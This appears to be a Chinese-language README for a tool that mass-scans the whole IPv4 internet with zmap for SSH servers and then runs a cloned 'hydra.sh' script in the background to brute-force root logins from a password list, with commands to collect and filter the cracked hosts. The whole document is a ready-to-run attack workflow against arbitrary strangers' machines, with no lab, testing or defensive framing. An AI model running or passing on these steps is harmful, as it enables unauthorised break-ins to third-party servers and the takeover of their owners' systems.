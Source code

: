   ### 安装zmap 克隆项目

	apt update && apt install zmap && apt install git && git clone https://github.com/qq1521575701/hydra.git && cd hydra && chmod +x hydra.sh

  ### zmap扫描ssh服务

	zmap -p 22 0.0.0.0/0 -N 10000 -o ssh.txt

  ### 运行项目
  	nohup ./hydra.sh ssh.txt root pass.txt 50 res.txt > hydra.log &

  ### 查看运行详情

  	tail -f hydra.log

 ### 查看结果

  	tail -f res.txt
  

	awk -F'host: |   ' '{ ip[$2]++ } { lines[$2] = $0 } END { for (i in ip) if (ip[i] == 1) print lines[i] }' res.txt > output.txt && cat output.txt
